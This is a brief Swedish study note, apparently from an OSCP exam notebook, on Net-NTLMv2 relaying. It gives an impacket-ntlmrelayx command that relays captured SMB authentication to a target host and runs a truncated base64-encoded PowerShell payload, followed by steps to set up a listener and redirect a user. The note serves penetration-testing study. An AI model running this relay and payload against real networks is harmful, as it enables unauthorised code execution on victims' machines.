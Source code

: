 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/8-net-ntl-mv2-relaying/","updated":"2024-01-05T11:34:59.945+01:00"}
---
```


- I stället för att styra en autentisiering till en egen uppsatt SMB-server, dirigeras den till en annan maskin, och om användaren har tillgång dit kommer den göra som vi säger när den connectar.
- Görs med 'ntlmrelayx'

-------------

### Net-NTLMv2 Relaying:
1. Sätt upp Impacket-server på Kali:
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
2. Sätt upp lyssnare.
3. Dirigera användare
4. Win!